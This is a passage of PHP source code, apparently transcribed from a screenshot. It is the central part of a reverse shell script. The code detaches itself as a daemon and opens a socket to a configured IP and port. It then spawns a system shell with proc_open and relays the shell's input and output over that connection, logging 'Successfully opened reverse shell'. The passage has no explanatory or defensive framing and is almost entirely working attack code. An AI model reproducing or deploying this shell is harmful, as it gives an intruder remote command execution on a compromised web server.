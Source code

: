 ```php
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
```